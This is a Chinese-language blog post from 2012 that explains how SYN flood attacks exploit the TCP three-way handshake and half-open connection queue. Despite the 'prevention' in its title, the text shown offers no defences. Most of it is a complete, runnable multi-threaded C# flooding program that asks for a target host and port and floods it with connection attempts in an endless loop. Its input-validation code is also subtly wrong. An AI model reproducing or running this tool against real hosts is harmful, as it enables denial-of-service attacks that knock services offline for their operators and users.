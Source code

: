 ```yaml
---
author: majia255
comments: true
date: 2012-01-10 12:29:29+00:00
layout: post
slug: synflood
title: SynFlood的原理与防范
wordpress_id: 206
categories:
- ACFUN
---
```


SYN Flood是当前最流行的针对服务器的方式之一，它是利用TCP协议缺陷，发送大量伪造的TCP连接请求，从而使得被攻击方资源耗尽的攻击方式，最终导致服务器无法提供正常的服务。

TCP与UDP不同，TCP是基于连接的协议，为了在服务端和客户端之间传送TCP数据，必须先建立一个虚拟连接，也就是TCP连接。也就是我们经常听说的TCP协议中的三次握手（Three-way Handshake），建立TCP连接的标准过程如下：

第一次握手：建立连接时，客户端发送syn包(syn=j)到服务器，并进入SYN_SEND状态，等待服务器确认；

第二次握手：服务器收到syn包，必须确认客户的SYN（ack=j+1），同时自己也发送一个SYN包（syn=k），即SYN+ACK包，此时服务器进入SYN_RECV状态；

第三次握手：客户端收到服务器的SYN＋ACK包，向服务器发送确认包ACK(ack=k+1)，此包发送完毕，客户端 和服务器进入ESTABLISHED状态，完成三次握手。

但是在实际中，我们并不能保证每次握手都成功，服务器也不能立即处理掉来握手的每一个用户。于是在三次握手协议中，服务器维护一个未连接队列，该队列为每个客户端的SYN包（syn=j）开设一个条目，该条目表明服务器已收到SYN包，并向客户发出确认，正在等待客户的确认包。这些条目所标识的连接在服务器处于Syn_RECV状态，当服务器收到客户的确认包时，删除该条目，服务器进入 ESTABLISHED状态。

你也许会问，假如我在握手过程中，网络条件变坏突然丢包怎么办？服务器发送完SYN－ACK包，如果未收到客户确认包，服务器进行首次重传，等待一段时间仍未收到客户确认包，进行第二次重传，如果重传次数超过系统规定的最大重传次数，系统将该连接信息从半连接队列中删除。

OK问题出来了。第二次握手结束，第三次握手是客户端发起的，什么时候向服务器确认，客户端定的，假如客户端不向服务器发送ACK包，那么服务器将一直等待(SYN_RECV)，一般来说这个时间是30秒左右一个用户出现异常导致服务器的一个线程等待半分钟并不会对服务器端造成什么大的影响，但如果有大量的等待丢失的情况发生，服务器端将为了维护一个非常大的半连接请求而消耗非常多的资源。大量的数据保存并遍历也会消耗非常多的CPU时间和内存，再加上服务器端不断对列表中的IP进行SYN+ACK的重试，服务器的负载将会变得非常巨大。如果服务器的TCP/IP栈不够强大，最后的结果往往是 堆栈溢出崩溃。相对于攻击数据流，正常的用户请求就显得十分渺小，服务器疲于处理攻击者伪造的TCP连接请求而无暇理睬客户的正常请求，此时从正常客户会表现为打开页面缓慢或服务器无响应，这种情况就是我们常说的服务器端SYN Flood攻击。

下面一段C#程序演示了如何进行Syn攻击：

{% highlight csharp %}
namespace acfun.Lurnar.TestAPP
{
    using System;
    using System.Net;
    using System.Net.Sockets;
    using System.Threading;

    internal class SynFlood
    {
        private static ThreadStart[] FloodingJob;
        private static Thread[] FloodingThread;
        public static string Host;
        private static IPEndPoint ipEo;
        public static int Port = 80;
        private static SendSyn[] SynClass;
        public static int SynSockets = 80;
        public static int Threads = 50;

        private static int string2int(string str)
        {
            int result = -1;
            if (int.TryParse(str, out result)) return result;
            else return -1;

        }
        public static void Main()
        {
            Console.WriteLine("端口？");
            string temp = null;
            while (temp == null)
            {
                temp = Console.ReadLine();
                if (temp != null)
                {
                    Port = string2int(temp);
                    if (Port == -1)
                    {
                        Port = 80;
                        temp = null;
                    }
                }
            }
            temp = null;
            Console.WriteLine("Syn端口？");
            while (temp == null)
            {
                temp = Console.ReadLine();
                if (temp != null)
                {
                    SynSockets = string2int(temp);
                    if (Port == -1)
                    {
                        SynSockets = 80;
                        temp = null;
                    }
                }
            }
            temp = null;
            Console.WriteLine("线程数？");
            while (temp == null)
            {
                temp = Console.ReadLine();
                if (temp != null)
                {
                    Threads = string2int(temp);
                    if (Port == -1)
                    {
                        Threads = 200;
                        temp = null;
                    }
                }
            }
            Console.WriteLine("域名或IP地址？");
            while (Host == null)
            {
                Host = Console.ReadLine();
                try
                {
                    ipEo = new IPEndPoint(Dns.GetHostEntry(Host).AddressList[0], Port);
                }
                catch
                {
                    try
                    {
                        ipEo = new IPEndPoint(IPAddress.Parse(Host), Port);
                    }
                    catch
                    {
                        Host = null;
                    }
                }
            }
            FloodingThread = new Thread[Threads];
            FloodingJob = new ThreadStart[Threads];
            SynClass = new SendSyn[Threads];
            for (int i = 0; i < Threads; i++)
            {
                SynClass[i] = new SendSyn(ipEo, SynSockets);
                FloodingJob[i] = new ThreadStart(SynClass[i].Send);
                FloodingThread[i] = new Thread(FloodingJob[i]);
                Console.WriteLine("初始化线程[" + i.ToString() + "]" );
                FloodingThread[i].Start();
            }
        }

        public static void StopSynFlood()
        {
            for (int i = 0; i < Threads; i++)
            {
                try
                {
                    FloodingThread[i].Abort();
                }
                catch
                {
                }
            }
        }

        private class SendSyn
        {
            private IPEndPoint ipEo;
            private Socket[] Sock;
            private int SynSockets;

            public SendSyn(IPEndPoint ipEo, int SynSockets)
            {
                this.ipEo = ipEo;
                this.SynSockets = SynSockets;
            }

            public void OnConnect(IAsyncResult ar)
            {
            }

            public void Send()
            {
                int num;
            Label_0001: ;
                try
                {
                    this.Sock = new Socket[this.SynSockets];
                    for (num = 0; num < this.SynSockets; num++)
                    {
                        this.Sock[num] = new Socket(this.ipEo.AddressFamily, SocketType.Stream, ProtocolType.Tcp);
                        this.Sock[num].Blocking = false;
                        AsyncCallback callback = new AsyncCallback(this.OnConnect);
                        this.Sock[num].BeginConnect(this.ipEo, callback, this.Sock[num]);
                    }
                    Thread.Sleep(100);
                    for (num = 0; num < this.SynSockets; num++)
                    {
                        if (this.Sock[num].Connected)
                        {
                            this.Sock[num].Disconnect(false);
                        }
                        this.Sock[num].Close();
                        this.Sock[num] = null;
                    }
                    this.Sock = null;
                    goto Label_0001;
                }
                catch
                {
                    for (num = 0; num < this.SynSockets; num++)
                    {
                        try
                        {
                            if (this.Sock[num].Connected)
                            {
                                this.Sock[num].Disconnect(false);
                            }
                            this.Sock[num].Close();
                            this.Sock[num] = null;
                        }
                        catch
                        {
                        }
                    }
                    goto Label_0001;
                }
            }
        }
    }
}
{% endhighlight %}
